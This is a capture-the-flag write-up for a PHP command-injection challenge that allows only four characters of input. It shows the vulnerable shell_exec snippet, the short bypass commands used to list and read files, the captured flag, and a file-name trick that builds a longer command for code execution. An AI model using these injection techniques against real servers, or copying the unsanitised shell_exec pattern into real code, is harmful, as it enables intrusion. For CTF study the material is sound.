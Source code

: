 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass black-listed
**Search**: 
php tricks hacktricks: https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp

bypass bash restrictiosn: https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions

**Bypassed
```
'l's # flag.php, index.php
l''s # still good
p\s # processes
env
```

## Bypass using short command of cat

**Search**: 
Linux two letters command: https://www.davekb.com/browse_computer_tips:linux_two_letter_commands:txt

```bash
# using m4(same as cat)
m4 *
```

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`

## Extended to RCE

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_            error command/not command raise error but still being ignored and keep running!!
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
